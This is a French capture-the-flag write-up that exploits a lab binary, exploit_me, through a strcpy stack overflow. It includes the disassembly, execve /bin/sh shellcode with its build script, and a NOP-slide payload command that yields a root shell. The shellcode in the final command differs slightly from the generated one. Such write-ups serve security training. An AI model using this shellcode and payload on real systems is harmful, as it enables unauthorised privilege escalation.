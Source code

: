 # Buffer Overflow Nopslide exploit

A partir de **zaz**, on reprend le binaire **exploit_me** que l'on avait exploiter dans le [writeup1](https://github.com/maginist/Boot2Root/blob/master/writeup1.md) :

```
gdb -q ./exploit_me
(gdb)> disas main
Dump of assembler code for function main:
   0x080483f4 <+0>:	push   %ebp
   0x080483f5 <+1>:	mov    %esp,%ebp
   0x080483f7 <+3>:	and    $0xfffffff0,%esp
   0x080483fa <+6>:	sub    $0x90,%esp
   0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)
   0x08048404 <+16>:	jg     0x804840d <main+25>
   0x08048406 <+18>:	mov    $0x1,%eax
   0x0804840b <+23>:	jmp    0x8048436 <main+66>
   0x0804840d <+25>:	mov    0xc(%ebp),%eax
   0x08048410 <+28>:	add    $0x4,%eax
   0x08048413 <+31>:	mov    (%eax),%eax
   0x08048415 <+33>:	mov    %eax,0x4(%esp)
   0x08048419 <+37>:	lea    0x10(%esp),%eax
   0x0804841d <+41>:	mov    %eax,(%esp)
   0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    0x10(%esp),%eax
   0x08048429 <+53>:	mov    %eax,(%esp)
   0x0804842c <+56>:	call   0x8048310 <puts@plt>
   0x08048431 <+61>:	mov    $0x0,%eax
   0x08048436 <+66>:	leave
   0x08048437 <+67>:	ret
End of assembler dump.
```
<pre><code>0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)</code></pre>
>Le compare nous indique que le programme attend 1 seul argument.
```
0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
```
>strcpy copie et stocke notre premier argument dans la stack sans vérifier si la taille de l'argument correspond à celle du buffer de destination.

La fonction est donc exploitable par <code>buffer_overflow</code> pour corrompre les valeurs sauvegardées de **%ebp** et **%eip**.

On va effectuer une **nopslide attack**, qui consiste a placer un **SHELLCODE**, executant un **"shell"** ou une autre fonction, au milieu d'une **slide de nop** (**"\x90"**).
> L'instruction **nop** n'a comme seul but de passer a l'instruction suivante.

On connait l'adresse du buffer qui est :

<code>0xbffff640</code>

On connait l'**offset**, auquel on ecrase **%eip**, qui est de 140 et possede une taille de 4.

On utilse le **SHELLCODE** 23 bytes, génerer de la maniere suivante :

### <span>script.sh</span>
```bash
#!/bin/sh
nasm -f elf binsh.s
objdump -d binsh.o
echo ''
objdump -d binsh.o | cut -d '	' -f2 | tr '\n' ' ' | sed $'s/^.*_main>:/shellcode::::::\\\n/' | tr -s ' ' | sed 's/ /\\x/g' | sed 's/......$//'
echo '\n'
LENGTH=`objdump -d binsh.o | tail -1 | cut -f1 | sed 's/.$//' | sed 's/ *//'`
LENGTHDEC=$(echo "obase=10; ibase=16; $LENGTH" | bc)
printf "lenght = 0x%d // %d \n" $LENGTH $LENGTHDEC
rm binsh.o
```
### <span>binsh.s</span>

```as
section .text
global _main

_main:
xor eax, eax	; eax = 0
push eax		; push null termination
push 0x68732f2f	; hs//
push 0x6e69622f	; nib/
mov ebx, esp	; path
mov ecx, eax	; argv
mov edx, eax	; env
mov al, 0xb		; sysall code for execve
int 0x80
nop
```

<pre><code>> sh script.sh

binsh.o:     file format elf32-i386


Disassembly of section .text:

00000000 <_main>:
   0:   31 c0                   xor    %eax,%eax
   2:   50                      push   %eax
   3:   68 2f 2f 73 68          push   $0x68732f2f
   8:   68 2f 62 69 6e          push   $0x6e69622f
   d:   89 e3                   mov    %esp,%ebx
   f:   89 c1                   mov    %eax,%ecx
  11:   89 c2                   mov    %eax,%edx
  13:   b0 0b                   mov    $0xb,%al
  15:   cd 80                   int    $0x80
  17:   90                      nop

shellcode:
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80

lenght = 0x17 // 23
</code></pre>

On prepare un **PAYLOAD** de 144 charactères, composé de la maniere suivante :
<pre><code>NOPSLIDE * 60 + SHELLCODE + NOPSLIDE * 57 + Address dans la 1ère NOPSLIDE/code></code></pre>

<pre><code>./exploit_me `python -c "print '\x90'*60 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + '\x90'*57 + '\x50\xf6\xff\xbf'"`</code></pre>

Nous obtenons un terminal avec les droits **root** :
```
> id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```